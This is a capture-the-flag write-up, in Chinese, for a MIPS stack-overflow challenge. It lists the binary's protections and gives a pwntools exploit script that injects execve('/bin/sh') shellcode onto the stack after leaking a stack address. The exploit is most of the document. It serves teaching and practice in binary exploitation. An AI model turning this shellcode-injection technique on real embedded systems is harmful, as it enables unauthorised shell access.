

# mips_pwn_challenge

> x86做累了，来做做异架构的pwn

## 文件属性

|属性  |值    |
|------|------|
|Arch  |mips  |
|RELRO |static|
|Canary|off   |
|NX    |off   |
|PIE   |off   |
|strip |no    |

## 解题思路

最基础的mips架构的栈溢出，由于使用qemu用户态模拟，并且elf没开nx，因此直接在栈上写
shellcode 执行shell即可。最困难的地方应该是考察选手有没有 mips 工具链，否则汇编不了。

## EXPLOIT

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'mips'
context.endian = 'big'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './mips_pwn'

def payload(lo: int):
    global t
    if lo:
        if lo & 2:
            t = process(['qemu-mips', '-g', '1234', EXE])
            gdb.attach(('127.0.0.1', 1234), exe=EXE)
        else:
            t = process(['qemu-mips', EXE])
    else:
        t = remote('10.1.100.182', 9999)

    code = """
    li $t1, 0x2f62696e
    sw $t1, -48($sp)
    li $t1, 0x2f736800
    sw $t1, -44($sp)
    addiu $a0, $sp, -48
    or $a1, $0, $0
    or $a2, $0, $0
    ori $v0, $0, SYS_execve
    syscall
    nop
    """
    shellcode = asm(code)

    t.sendlineafter(b'magic', b'255')
    t.recvuntil(b'gift:')
    stack = int(t.recvline(), 16)
    info(f'Jumping to {stack:#x}')

    t.send(b''.ljust(44, b'\0') + p32(stack + 48) + shellcode)

    t.clean()
    t.interactive()
    t.close()
```


